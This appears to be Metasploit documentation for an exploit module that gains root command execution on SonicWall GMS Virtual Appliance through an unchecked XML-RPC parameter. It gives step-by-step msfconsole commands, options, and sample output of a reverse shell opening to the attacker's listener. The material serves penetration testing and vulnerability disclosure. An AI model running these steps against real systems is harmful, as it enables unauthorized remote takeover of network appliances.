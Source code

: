 ## Background

sonicwall_xmlrpc_rce is a remote exploit against SonicWall Global Management
System Virtual Appliance and is written by Michael Flanders of Trend
Micro Zero Day Initiative with assistance by @kernelsmith of Trend Micro Zero
Day Initiative. It is considered a reliable exploit, and allows you to remotely
execute commands as root.

## Vulnerable Application

* This exploit works against a vulnerable SonicWall Global Management System
Virtual Appliance (A.K.A. Sonicwall GMSVP) of versions 8.1 (Build 8110.1197) and
earlier. The virtual appliance can be downloaded here:
  * http://www.sonicwall.com/products/sonicwall-gms/

* This module exploits the virtual appliance's lack of checking on user-supplied
parameters to XML-RPC calls to a vulnerable Java service running on port 21009.
A call to a shell script is made using this user-supplied parameter contained in
backticks allowing command substitution and remote code execution.

* To reliably determine whether the target virtual appliance is vulnerable,
you will have to examine the web console's login page. This is also automatically
done in the check function of the exploit.

## Verification Steps

- [x] Start `msfconsole`
- [x] `use exploit/unix/sonicwall/sonicwall_xmlrpc_rce`
- [x] `set RHOST` to the IP address of the vulnerable virtual appliance
- [x] `set RPORT` to 21009
- [x] `set payload` to the desired payload
- [x] set any additional options for the payload e.g. LHOST/LPORT
- [x] `exploit`
- [x] **Verify** that you get a shell
- [x] **Verify** that you do not crash

## Options

```
set SSL [true/false]
```

* Set this true/false depending on whether the instance of SonicWall GMSVP has
been configured to use SSL.


```
set WEB_SERVER_PORT [port]
```

* This is the port of the login page for the web server/virtual appliance. For
SonicWall GMVSP this is typically http://[ip]:80; therefore, this option is set
by default to 80 (or 443 if `set SSL true`).

## Scenarios

* This is example output from a normal usage/scenario. This console output is for
SonicWall GMSVP version 8.0 (Build 8046.1396):

```
msf > use exploit/unix/sonicwall/sonicwall_xmlrpc_rce
msf exploit(unix/sonicwall/sonicwall_xmlrpc_rce) > show options

Module options (exploit/unix/sonicwall/sonicwall_xmlrpc_rce):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                             yes       The target address
   RPORT            80               yes       The target port (TCP)
   SSL              false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                             no        HTTP server virtual host
   WEB_SERVER_PORT                   no        Port of web console login page.
                                             Defaults to 80/443 depending on SSL.


Exploit target:

   Id  Name
   --  ----
   0   SonicWall Global Management System Virtual Appliance


msf exploit(unix/sonicwall/sonicwall_xmlrpc_rce) > set RPORT 21009
RPORT => 21009

msf exploit(unix/sonicwall/sonicwall_xmlrpc_rce) > set RHOST 192.168.152.173
RHOST => 192.168.152.173

msf exploit(unix/sonicwall/sonicwall_xmlrpc_rce) > set payload cmd/unix/reverse
payload => cmd/unix/reverse

msf exploit(unix/sonicwall/sonicwall_xmlrpc_rce) > set LHOST 192.168.152.193
LHOST => 192.168.152.193

msf exploit(unix/sonicwall/sonicwall_xmlrpc_rce) > exploit

[*] Started reverse TCP double handler on 192.168.152.193:4444
[*] The target appears to be vulnerable, continuing exploit...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo H7sn3KYXeuCZy27Q;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "H7sn3KYXeuCZy27Q\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.152.193:4444 -> 192.168.152.173:44698) at 2018-07-05 12:30:56 -0400
```

